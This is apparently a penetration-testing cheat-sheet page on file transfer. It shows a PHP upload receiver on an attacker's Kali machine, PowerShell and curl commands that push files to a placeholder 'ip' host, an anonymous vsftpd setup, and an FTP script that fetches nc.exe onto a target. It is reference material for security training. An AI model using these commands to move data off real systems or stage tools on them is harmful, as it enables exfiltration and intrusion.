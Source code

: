## Upload files PHP Server

Kali Machine

``` php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile= $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Client

PowerShell

``` bash
powershell.exe (New-Object System.Net.WebClient).UploadFile('http://ip/upload.php', 'test.txt')
```

curl

``` bash
curl -F "file=@nc.cmd" http://ip/upload.php
```

## FTP Services

### FTP Server

Install

``` bash
sudo apt-get install vsftpd
sudo service vsftpd start
```

Anonymous access `/etc/vsftpd.conf`

``` txt
anonymous_enable=YES
```

### Pure-FTPd

=== "Client"

	ftp.txt

	``` bash
	open ip 21
	USER hades
	passwd
	bin
	GET nc.exe
	quit
	```
